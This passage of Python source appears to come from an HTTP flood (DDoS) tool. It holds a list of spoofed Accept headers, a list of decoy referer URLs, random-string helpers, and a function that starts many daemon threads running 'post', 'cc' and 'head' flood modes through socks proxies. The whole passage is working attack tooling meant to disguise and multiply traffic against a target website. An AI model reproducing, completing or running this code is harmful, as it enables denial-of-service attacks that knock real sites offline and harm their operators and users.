 		"Accept: text/html, application/xhtml+xml, image/jxr, */*\r\nAccept-Encoding: gzip\r\nAccept-Charset: utf-8, iso-8859-1;q=0.5\r\nAccept-Language: utf-8, iso-8859-1;q=0.5, *;q=0.1\r\n",
		"Accept: text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/webp, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1\r\nAccept-Encoding: gzip\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Charset: utf-8, iso-8859-1;q=0.5\r\n,"
		"Accept: text/html, application/xhtml+xml, application/xml;q=0.9, */*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\n",
		"Accept-Charset: utf-8, iso-8859-1;q=0.5\r\nAccept-Language: utf-8, iso-8859-1;q=0.5, *;q=0.1\r\n",
		"Accept: text/html, application/xhtml+xml",
		"Accept-Language: en-US,en;q=0.5\r\n",
		"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Encoding: br;q=1.0, gzip;q=0.8, *;q=0.1\r\n",
		"Accept: text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Charset: iso-8859-1\r\n",]

referers = [
	"https://www.google.com/search?q=",
	"https://check-host.net/",
	"https://www.facebook.com/",
	"https://www.youtube.com/",
	"https://www.fbi.com/",
	"https://www.bing.com/search?q=",
	"https://r.search.yahoo.com/",
	"https://www.cia.gov/index.html",
	"https://vk.com/profile.php?redirect=",
	"https://www.usatoday.com/search/results?q=",
	"https://help.baidu.com/searchResult?keywords=",
	"https://steamcommunity.com/market/search?q=",
	"https://www.ted.com/search?q=",
	"https://play.google.com/store/search?q=",
	"https://www.qwant.com/search?q=",
	"https://soda.demo.socrata.com/resource/4tka-6guv.json?$q=",
	"https://www.google.ad/search?q=",
	"https://www.google.ae/search?q=",
	"https://www.google.com.af/search?q=",
	"https://www.google.com.ag/search?q=",
	"https://www.google.com.ai/search?q=",
	"https://www.google.al/search?q=",
	"https://www.google.am/search?q=",
	"https://www.google.co.ao/search?q=",
]
ind_dict = {}
data = ""
cookies = ""
strings = "asdfghjklqwertyuiopZXCVBNMQWERTYUIOPASDFGHJKLzxcvbnm1234567890&"
###################################################
Intn = random.randint
Choice = random.choice
###################################################
def build_threads(mode,thread_num,event,socks_type,ind_rlock):
	if mode == "post":
		for _ in range(thread_num):
			th = threading.Thread(target = post,args=(event,socks_type,ind_rlock,))
			th.setDaemon(True)
			th.start()
	elif mode == "cc":
		for _ in range(thread_num):
			th = threading.Thread(target = cc,args=(event,socks_type,ind_rlock,))
			th.setDaemon(True)
			th.start()
	elif mode == "head":
		for _ in range(thread_num):
			th = threading.Thread(target = head,args=(event,socks_type,ind_rlock,))
			th.setDaemon(True)
			th.start()